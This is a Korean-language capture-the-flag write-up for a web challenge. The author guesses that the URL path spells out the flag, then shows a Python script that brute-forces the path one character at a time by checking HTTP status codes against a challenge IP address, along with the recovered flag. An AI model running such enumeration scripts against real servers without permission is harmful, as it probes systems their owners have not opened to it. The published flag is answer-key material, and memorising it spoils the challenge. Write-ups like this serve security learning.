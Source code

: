 이외에 단서는 존재하지 않아 gobuster로 디렉터리 경로를 확인해보니  `http://3.34.190.217:24915/h/s/p/a/c/e`경로까지 접근이 가능했다.    
     
더이상 경로가 확인되지 않다가 경로 자체가 FLAG 라는 생각이 들어 `{` 문자를 추가해보니 200으로 응답되는 것을 확인했다.     

```
http://3.34.190.217:24915/h/s/p/a/c/e/{/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/e/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/e/4/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/e/4/5/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/e/4/5/c/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/e/4/5/c/1/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/e/4/5/c/1/2/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/e/4/5/c/1/2/f/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/e/4/5/c/1/2/f/5/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/e/4/5/c/1/2/f/5/8/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/e/4/5/c/1/2/f/5/8/d/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/e/4/5/c/1/2/f/5/8/d/d/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/e/4/5/c/1/2/f/5/8/d/d/0/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/e/4/5/c/1/2/f/5/8/d/d/0/c/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/e/4/5/c/1/2/f/5/8/d/d/0/c/f/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/e/4/5/c/1/2/f/5/8/d/d/0/c/f/b/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/e/4/5/c/1/2/f/5/8/d/d/0/c/f/b/2/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/e/4/5/c/1/2/f/5/8/d/d/0/c/f/b/2/c/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/e/4/5/c/1/2/f/5/8/d/d/0/c/f/b/2/c/f/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/e/4/5/c/1/2/f/5/8/d/d/0/c/f/b/2/c/f/d/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/e/4/5/c/1/2/f/5/8/d/d/0/c/f/b/2/c/f/d/f/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/e/4/5/c/1/2/f/5/8/d/d/0/c/f/b/2/c/f/d/f/a/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/e/4/5/c/1/2/f/5/8/d/d/0/c/f/b/2/c/f/d/f/a/2/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/e/4/5/c/1/2/f/5/8/d/d/0/c/f/b/2/c/f/d/f/a/2/2/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/e/4/5/c/1/2/f/5/8/d/d/0/c/f/b/2/c/f/d/f/a/2/2/e/
http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/e/4/5/c/1/2/f/5/8/d/d/0/c/f/b/2/c/f/d/f/a/2/2/e/6/
```
익스 코드를 작성하고 돌려보니 이와 같이 결과가 나왔고, `/`를 삭제하고 FLAG로 제출해봤는데 틀렸다고 나왔다. 그래서, `http://3.34.190.217:24915/h/s/p/a/c/e/{/5/a/f/c/f/1/d/e/4/5/c/1/2/f/5/8/d/d/0/c/f/b/2/c/f/d/f/a/2/2/e/6/` 경로에 접근해보니 `Wow, the final flag is (what_you_got) + _cab2038942053898e0e6486cebfd368a}` 문구가 존재했다.    

즉, 앞뒤로 플래그를 합쳐주면 된다.         

## Exploit Code     

```python 
import requests 
url = "http://3.34.190.217:24915"

real_url = f"{url}/h/s/p/a/c/e/"
for i in range(50): 
    for j in range(32, 128):
        c = chr(j)
        r= requests.get(real_url + c)
        if c in ["#", ".", "?"]: 
            continue 
        if r.status_code == 200:
            real_url += (c + "/")
            print(real_url)
```
